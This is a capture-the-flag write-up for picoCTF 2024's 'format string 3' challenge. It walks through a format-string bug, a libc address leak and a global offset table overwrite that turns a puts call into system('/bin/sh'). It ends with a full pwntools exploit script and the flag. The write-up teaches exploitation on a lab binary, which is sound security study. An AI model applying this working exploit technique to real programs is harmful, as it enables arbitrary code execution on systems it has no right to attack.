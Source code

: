# format string 3 Writeup

Points: 300<br>
Challenge Author: SkrubLawd

Description:<br>
This program doesn't contain a win function. How can you win?

Hint:<br>
Is there any way to change what a function points to?

## Solution

Looking at the provided source code, we can see a suspicious variable normal_string, which is "/bin/sh". This suggests that we're meant to pop a shell. We can also see that this string is passed as an arguments for the final puts call. Knowing this (and with the hint to have a function point somwhere else), we can deduct that we need to change what the final puts call points to from puts(normal_string) to system(normal_string).<br>
![image](https://github.com/martinlaubscher/picoctf2024/assets/113263884/6b488607-2679-440f-b86e-002164e20b58)

Since puts is a libc function, it gets called via its got (global offset table) entry. if we can change this entry to point to system instead, we can pop a shell!

So, we check the got entry for puts in radare2 and see that its stored at 0x404018
![image](https://github.com/martinlaubscher/picoctf2024/assets/113263884/7989ad93-9e98-4953-893e-eba048af8ae4)
![image](https://github.com/martinlaubscher/picoctf2024/assets/113263884/3cdbef57-1481-4e4a-ac02-e77e66399445)

Next, we need to find a way to write to this address. The printf call in main looks like a good target since it's missing a format specifier.

By fuzzing the input with something like:<br>
```python3 -c 'print("A"*8 + ".%p"*50)' | ./format-string-3```<br>
We find that we control the offset at 38. I also wrote a small script to find the offset so I can reuse it for future challenges (find_offset.py).<br>
![image](https://github.com/martinlaubscher/picoctf2024/assets/113263884/d3d3572e-c12c-4ab9-9ea7-92e8369d727c)

Next, we need to determine the address of the system call at runtime. Luckily, the program "leaks" the address of setvbuf after it has been loaded. Now we can check the static offset from the libc start address and can determine the start address of libc at runtime:<br>
```readelf -s libc.so.6 | grep setvbuf```<br>
This gives us the offset of setvbuf from the libc start address, which is 0x7a3f0<br>
![image](https://github.com/martinlaubscher/picoctf2024/assets/113263884/edfa4b97-a485-46de-b2bc-76b2f660d97b)

Now, we can calculate the libc address at runtime using the leaked address and the offset we just found:<br>
leaked_address - 0x7a3f0 = loaded_libc_start

In a similar fashion, we can now calculate the address of the system call at runtime:<br>
```readelf -s libc.so.6 | grep system```<br>
this gives us the offset of setvbuf from the libc start address, which is 0x4f760<br>
![image](https://github.com/martinlaubscher/picoctf2024/assets/113263884/b80ecc01-9fb2-49bd-8790-1de8d999173a)

Now, we can calculate the system call address at runtime using the libc start address and the offset we just found:<br>
system_call_address = libc_start + 0x4f760<br>

Finally, we have everything together to write our exploit in python using pwntools!
```
from pwnlib.fmtstr import fmtstr_payload
from pwn import *

context.clear(arch = 'amd64')

p = process('./format-string-3')

#p = remote('rhea.picoctf.net', 50329)

p.recvuntil(": ")
received = p.recvline().strip()
leaked_address = int(received,16)

libc_start = leaked_address - 0x7a3f0
system_call = libc_start + 0x4f760

payload = fmtstr_payload(38, {0x404018 : system_call}) #overwriting the got entry for puts

p.sendline(payload)
p.interactive()
```
And just like that, we have popped a shell and can get the flag!<br>
```picoCTF{G07_G07?_6d11af9f}```<br>
![image](https://github.com/martinlaubscher/picoctf2024/assets/113263884/45f1d7a1-ba3c-41b9-ae66-cc05f8b9c6bf)
